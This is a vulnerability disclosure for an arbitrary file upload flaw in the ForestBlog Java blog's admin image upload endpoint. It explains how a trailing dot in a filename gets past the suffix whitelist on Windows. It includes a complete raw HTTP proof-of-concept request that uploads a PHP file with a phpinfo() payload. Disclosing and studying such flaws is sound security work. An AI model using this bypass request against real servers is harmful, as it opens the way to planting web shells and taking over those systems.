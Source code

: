 **BUG_Author:**

Daydust

**Vendor:**

https://github.com/saysky/ForestBlog

**Software:**

https://github.com/saysky/ForestBlog

**Vulnerability File:**

ForestBlog-master/ForestBlog/src/main/java/com/liuyanzhao/ssm/blog/controller/admin/UploadFileController.java

**Description:**
ForestBlog Exists Arbitrary File Upload Vulnerability on /admin/upload/img Interface

When the code processes the logic of file upload, the character after the last dot is used as the suffix name, and a series of judgment danger detection is performed on the suffix name

![image-20231212223542659](img/image-20231212223542659.png)

In Windows system, we can upload any file by adding a "." after the file's name.In this case, the suffix value becomes a period, and allowSuffix contains a period, thus bypassing whitelist suffix detection

![image-20231212235628456](img/image-20231212235628456.png)





![image-20231212235938258](img/image-20231212235938258.png)



```http
POST /admin/upload/img HTTP/1.1
Host: 172.21.64.185:8090
Content-Length: 217
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysCaHQits7v3jAaOh
Origin: http://172.21.64.185:8090
Referer: http://172.21.64.185:8090/admin/user/edit/5
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: username=admin; password=123456; JSESSIONID=BB01F841CB10B9619AC5D0A1D363F4FD
Connection: close

------WebKitFormBoundarysCaHQits7v3jAaOh
Content-Disposition: form-data; name="file"; filename="aa.php."
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundarysCaHQits7v3jAaOh--

```

When uploading, the corresponding address will be displayed, or right click on the saved avatar file, you can see the full address. Windows automatically deletes the dot at the end of the file. Therefore, delete the dot at the end of the file to successfully access the file。

![image-20231213000618896](img/image-20231213000618896.png)

You can also see that our files were successfully uploaded locally

![image-20231213000645385](img/image-20231213000645385.png)
